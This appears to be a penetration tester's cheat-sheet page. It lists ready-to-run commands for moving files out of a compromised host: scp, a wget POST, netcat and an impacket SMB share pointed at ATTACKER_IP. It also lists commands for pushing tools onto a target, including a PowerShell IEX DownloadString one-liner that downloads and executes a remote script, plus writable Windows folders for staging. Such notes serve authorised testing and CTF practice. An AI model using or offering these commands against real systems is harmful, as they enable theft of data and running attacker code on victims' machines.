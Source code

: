 ### Exfiltration

#### SCP

Host must be running SSH, and you must be authenticated.

On local box:

```bash
$ scp [user@][TARGET]:/path/to/target/file /local/path
```

See more at [[Fundamental Skills#Secure Copy]]

#### wget

Use a `wget` POST request if you have a fileserver that accepts posts. I [have one here](https://gist.github.com/Twigonometry/a619bc5234d39296737e8d00899f23af):

```bash
$ wget --post-file /path/to/file http://[LOCAL_IP]:[PORT]/
```

#### Netcat

On host:

```bash
$ nc -l -p [PORT] > /path/to/outfile
```

On target:

```bash
$ nc -w 3 [HOST_IP] [PORT] < /path/to/file
```

See more at [[netcat]]

#### SMB

Locally:

```bash
$ sudo impacket-smbserver share .
```

On target machine:

```bash
$ copy /path/to/file \\ATTACKER_IP\share\
```

### Upload Techniques

- HTTP (running a `python3 -m http.server` to serve files)
	- `wget` - `wget http://[ATTACKER_IP]/file -O /path/to/file`
	- `curl` - `curl http://[ATTACKER_IP]/file -o /path/to/file`
- SCP - on attacker machine, run `scp /path/to/target/file [user@][TARGET]:/target/path`
- FTP - upload to an FTP share and find where the files are stored (make sure you're in `binary` mode when uploading `.exe` files)
- Powershell `Invoke-WebRequest` (similar to `wget`) - `powershell.exe -command "Invoke-WebRequest http://[ATTACKER_IP]:[PORT]/file -o file`
- Powershell `IEX` (executes `.ps1` after downloading it) - `IEX (New-Object Net.WebClient).DownloadString('http://[ATTACKER_IP]/file.ps1')"`
- SMB Server
	- Run `sudo impacket-smbserver share .` locally
	- Run `copy \\[ATTACKER_IP\share\file`
- SMB Share - Upload to an SMB share and find where the files are stored

Windows writeable directories - write here if you can't write anywhere else:
- `%temp%`
- `\windows\system32\spool\drivers\color\`